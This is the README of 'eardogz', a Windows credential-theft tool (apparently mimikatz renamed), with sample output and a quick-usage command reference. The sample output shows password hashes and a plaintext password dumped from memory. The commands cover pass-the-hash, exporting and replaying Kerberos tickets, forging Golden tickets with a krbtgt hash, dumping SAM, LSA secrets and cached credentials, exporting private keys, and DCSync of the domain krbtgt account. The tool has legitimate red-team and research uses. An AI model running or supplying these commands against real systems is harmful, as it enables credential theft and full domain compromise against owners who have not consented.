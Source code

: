 # eardogz

**`eardogz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`eardogz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   eardogz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `FYtD` ( benjamin@FYtD.com )
 '## v ##'   https://blog.FYtD.com/eardogz             (oe.eo)
  '#####'                                    with  13 modules * * */


eardogz # privilege::debug
Privilege '20' OK
 
eardogz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/FYtD/eardogz/wiki or on https://blog.FYtD.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/FYtD/eardogz/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`eardogz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `eardogz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `eardogz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`eardogz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : https://github.com/FYtD/eardogz.git
* SVN URL is  : https://github.com/FYtD/eardogz/trunk
* ZIP file is : https://github.com/FYtD/eardogz/archive/master.zip

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `eardogz` is now built and ready to be used! (`Win32` / `x64` even `ARM64` if you're lucky)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `eardogz` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* https://blog.FYtD.com/programmation/executables-runtime-defaut-systeme
* _https://blog.FYtD.com/cryptographie/api-systemfunction-windows#winheader_

## Continuous Integration
`eardogz` project is available on AppVeyor - https://ci.appveyor.com/project/FYtD/eardogz

Its status is: ![AppVeyor CI status](https://ci.appveyor.com/api/projects/status/github/FYtD/eardogz?svg=true&retina=true)

## Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

`eardogz` needs coffee to be developed:
* PayPal: https://www.paypal.me/delpy/

## Author
* Benjamin DELPY `FYtD`, you can contact me on Twitter ( @FYtD ) or by mail ( benjamin [at] FYtD.com )
* DCSync and DCShadow functions in `lsadump` module were co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!